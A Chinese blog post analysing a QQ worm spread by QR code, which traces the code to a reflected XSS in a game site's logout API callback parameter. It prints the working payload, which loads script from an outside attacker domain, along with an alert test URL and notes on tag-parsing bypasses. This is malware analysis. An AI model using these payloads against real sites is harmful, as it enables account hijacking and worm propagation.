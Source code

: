 ```yaml
---
layout: post
featured-img: worm
title: QQ蠕虫二维码分析
summary: <黄钻专属私密相册>蠕虫病毒二维码
---
```



**前言**

前几天看到了至少两位同学因为扫描这个二维码，而后即发送二维码给所有好友，以蠕虫形式传播



***

解析二维码，获得网址：

`http%3A%2f%2fi.ali213.net%2fapi.html%3Faction%3Dlogout%26callback%3D%00%00%00%00%00%00%00%3CscripT%2fsrc%3D%2f%2fccccccccccc.nekeda.cn%2ftemplate%2fapp.js%3E%3C%2fscripT%3E%3C%21--`

URL decode得到`http://i.ali213.net/api.html?action=logout&callback=%00%00%00%00%00%00<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

whois查询`ali213.net`域名，为游侠游戏网站，看来是调用了正经网站的API



***

访问API：`http://i.ali213.net/api.html?action=logout`

```html
{
	"status":1,
	"msg":"\u767b\u51fa\u6210\u529f",
	"data":{
		"script":"<script type=\"text\/javascript\"src=\"http:\/\/game.ali213.net\/api\/uc.php?time=1534038380&code=f755W9lt6o%2BqYgP7noRqshLJkkaC%2B5tatuf93A%2BStzaG4RDk%2Bc8tvBDMQl%2BFMy60io72HumXtCjNwgVsyA\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/shop.ali213.com\/api\/uc.php?time=1534038380&code=52dbb8X%2Fn%2B1bF%2BRO8srsZBgjLnUcoQ1ZmNOsXsfx3iQAYl3HWz14r0vKPQiWJoXAqqx5FT4BvlTR35Otug\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/passport.ali213.net\/api\/uc.php?time=1534038380&code=f003M1FK18joxKRVW8wD7q06z6PLqWLHnzOpVSNEXaAqZBZS%2B4i7oMEMi1zPmHbQqhmeqELwecnjeLAkOQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/plugin.ali213.net\/api\/uc.php?time=1534038380&code=3358a%2FEySHeMPKTgQfm0ikkqPMDIjun4EUoy0mtcUu0%2BZAuIxOSuQGVBvpoVTq1P1D6s2JGCRLTdXak4MQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/i.ali213.net\/api\/uc.html?time=1534038380&code=c0ecTf31BWZivvpSCfIz2Vy9pu7aEmIf1a6FGU16c%2BrNtkvNBBFs22E%2Fbvr6CCSyX2xb7vt2ZxazvzsCSQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/api.ali213.net\/api\/uc.php?time=1534038380&code=6b3cTo0z9viiFnow3HTKykapqEpk%2FejYeoC5BKYRNsYtK8wh%2FlO71%2BJk0NxrugQw5W%2F2kn4VjHQdVER0tQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/3g.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6095414c49fa4bad204bb189e405aebe\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/game.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6fc3efe1ae20847e0326173dc5b7ee7c\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/zhidao.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=3a12ba4fb7d01c0e1de8ec8510265356\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/pk.im.iyouxia.com\/aliSSO.php?action=logout&time=1534038381&signature=f283a40aef2e97d83719e57ed3293ed9\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/ol.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=54fd6efba68f7aa98248b4fec552b9a2\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/comment.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=424ad74c51c8582bdf9061b23f3c4215\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/wan.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=0bc3326cd131495296a095bac06dfc3a\" reload=\"1\"><\/script>"
	}
}
```

得到正常的log out json数据



***

接着添加`callback`参数：

`http://i.ali213.net/api.html?action=logout&callback=%3Cscript%3Ealert(0);%3C/script%3E`

![](https://upload-images.jianshu.io/upload_images/11356161-1bd0313bde07798d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

回调的参数改写页面代码格式为：

```html
callback([json]{
	"xxx":"xxx",
	"xxx":"xxx"
})
```

所以这样的接口就相当于是一个可由攻击者写入任意`js`代码的页面，从而发起`xss`



***

**XSS** `payload`：

`<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

执行后的页面代码为

```html
<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--({"status":1,"msg":"\u767b\u51fa\u6210\u529f","data":..........
.....
```

+ `<script/src`

  + FireFox的解析器会将标签后的非字母非数字字符认为是一个空白或无效字符
  + Gecko渲染引擎允许任何字符包括字母，数字或特殊字符（例如引号，尖括号等）存在于事件名称和等号之间 ，如`<body onload@#*!$=alert(0)>`
+ `src=//xxx.com`
  + 协议解析绕过。在FireFox下无效
+ `<!--`
  + 注释后面的json部分，有点多余，不注释也一样执行



***

whois查询域名`nekeda.cn`的注册人：魏xx，名下有4600+域名记录

一级域名未绑定IP，二级域名解析到一个`IIS 7`服务器，访问蠕虫`js`代码，来晚了已经404了。

猜想是利用`webQQ`协议的`CSRF`，获取所有好友名单并发送二维码
